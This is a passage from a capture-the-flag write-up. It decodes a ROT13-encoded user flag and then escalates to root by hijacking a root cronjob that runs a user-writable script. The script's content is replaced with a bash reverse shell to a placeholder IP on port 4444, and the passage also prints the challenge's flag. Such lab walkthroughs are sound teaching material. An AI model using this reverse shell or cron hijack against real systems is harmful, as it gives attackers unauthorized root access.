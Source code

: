 The user flag is in our home directory but it is encoded:

~~~
boring@kral4-PC:~$ ls
user.txt
boring@kral4-PC:~$ cat user.txt 
User Flag But It Seems Wrong Like It`s Rotated Or Something
synt{a0jvgf33zfa0ez4y}
~~~

The letters are rotated. I used [this](https://rot13.com/) website to decode it. It is encoded with the good old ROT13.

User flag: `flag{n0wits33msn0rm4l}`

### Going Root

In order to obtain the root flag, we need to gain root access. We can't run sudo but I found a cronjob in `/etc/crontab`:

~~~
boring@kral4-PC:~$ cat /etc/crontab 
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user	command
17 *	* * *	root    cd / && run-parts --report /etc/cron.hourly
25 6	* * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6	* * 7	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6	1 * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
#
* *    * * *   root    cd /var/www/ && sudo bash .mysecretcronjob.sh
~~~

This cronjob is an empty bash file (`/var/www/.mysecretcronjob.sh`) being ran by root so if we change the content of it with a reverse shell, we can obtain a root shell. Fortunately it is owned by us, so we can easily modify it. I replaced the content of it with a bash reverse shell and opened a listener and waited for a little while and I got a root shell:

~~~
boring@kral4-PC:~$ cat /var/www/.mysecretcronjob.sh 
#!/bin/bash
# i will run as root
boring@kral4-PC:~$ ls -la /var/www/.mysecretcronjob.sh 
-rwxr-xr-x 1 boring boring 33 Jun 14  2020 /var/www/.mysecretcronjob.sh
boring@kral4-PC:~$ cat /var/www/.mysecretcronjob.sh
#!/bin/bash
bash -i >& /dev/tcp/<YOUR IP>/4444 0>&1
~~~
